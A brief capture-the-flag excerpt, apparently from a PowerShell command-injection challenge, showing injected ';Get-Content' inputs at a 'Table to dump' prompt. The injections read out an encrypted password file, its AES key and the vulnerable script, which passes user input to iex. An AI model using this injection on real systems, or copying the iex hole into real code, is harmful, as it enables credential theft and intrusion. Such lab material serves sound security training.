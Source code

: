 ```powershell
> ;Get-Content .passwd.crypt
Connect to the database With the secure Password: System.Security.SecureString.
Backup the table
76492d1116743f0423413b16050a5345MgB8AEkAMQBwAEwAbgBoAHgARwBXAHkAMgB3AGcAdwB3AHQA
RQBqAEEARQBPAEEAPQA9AHwAMgAyAGMANQA1ADIANwBiADEANQA4ADIANwAwAGIANAA2ADIAMQBlADAA
NwA3ADIAYgBkADYANgAyADUAYwAyAGMAYQBhAGUAMAA5ADUAMAA2ADUAYQBjADIAMQAzADIAMgA1AGYA
NgBkAGYAYgAxAGMAMgAwADUANQBkADIAMgA0AGQAYgBmADYAMQA4AGQAZgBkAGQAMwAwADUANAA4AGYA
MAAyADgAZAAwADEAMgBmAGEAZQBmADgANAAyADkA
Table to dump:
>
```


```powershell
> ;Get-content AES.key
Connect to the database With the secure Password: System.Security.SecureString.
Backup the table
3
4
2
3
56
34
254
222
1
1
2
23
42
54
33
233
1
34
2
7
6
5
35
43
Table to dump:
```

```powershell
> ;Get-content ch19.ps1
Connect to the database With the secure Password: System.Security.SecureString.
Backup the table

$KeyFile = "AES.key"
$key = Get-Content $KeyFile
$SecurePassword = Get-Content .passwd.crypt | ConvertTo-SecureString -key $Key

while($true){
        Write-Host "Table to dump:"
        Write-Host -NoNewLine "> "
        $table=Read-Host

        iex "Write-Host Connect to the database With the secure Password: $SecurePassword. Backup the table $table"
}
Table to dump:
>
```
